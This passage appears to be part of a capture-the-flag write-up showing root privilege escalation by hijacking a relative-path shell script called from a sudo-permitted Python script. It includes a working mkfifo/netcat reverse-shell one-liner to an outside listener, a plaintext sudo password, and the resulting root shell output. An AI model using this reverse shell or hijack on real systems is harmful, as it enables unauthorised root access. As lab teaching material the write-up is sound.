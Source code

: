 If we inspect the commit for "administrator/scripts" we can see the file "system-checkup.py" which we are allowed to run as sudo:
```python
# [...]
 elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)
# [...]
```
=> We see that the script executes a shell script "full-checkup.sh" in the current working directory.
=> We can hijack this shell script by providing our own "full-checkup.sh" script.


```bash
# Create shell script full-checkup.sh in cwd
vi full-checkup.sh

#!/bin/bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.58 7777 >/tmp/f

# Make it executable
chmod +x full-checkup.sh

# Run full-checkup
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

# sudo pw: jh1usoih2bkjaspwe92
```

We get a root shell on our listener:
```bash
nc -vlnp 7777
listening on [any] 7777 ...
connect to [10.10.14.58] from (UNKNOWN) [10.10.11.208] 46676
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
#
```